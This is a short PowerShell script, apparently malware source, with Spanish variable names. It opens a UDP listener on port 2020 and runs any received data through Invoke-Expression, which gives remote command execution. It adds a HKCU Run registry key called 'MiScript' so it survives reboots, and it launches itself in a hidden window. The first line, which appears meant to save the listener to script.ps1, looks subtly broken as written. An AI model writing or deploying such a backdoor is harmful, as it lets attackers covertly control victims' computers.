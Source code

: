 $rutaScript = Join-Path $env:HOMEDRIVE "\Users\$env:USERNAME\script.ps1";$port = 2020;$endpoint = New-Object System.Net.IPEndPoint ([IPAddress]::Any, $port);$udpclient = New-Object System.Net.Sockets.UdpClient $port;$content = $udpclient.Receive([ref]$endpoint);[Text.Encoding]::ASCII.GetString($content) | Invoke-Expression,$udpclient.Dispose() > $rutaScript

$nombreEntrada = "MiScript"
$valorEntrada = "powershell.exe -File $rutaScript"
if (-not (Test-Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run\$nombreEntrada")) {
    New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name $nombreEntrada -Value $valorEntrada
}
Start-Process -FilePath "powershell.exe" -ArgumentList "-WindowStyle Hidden -File $rutaScript" -NoNewWindow -PassThru


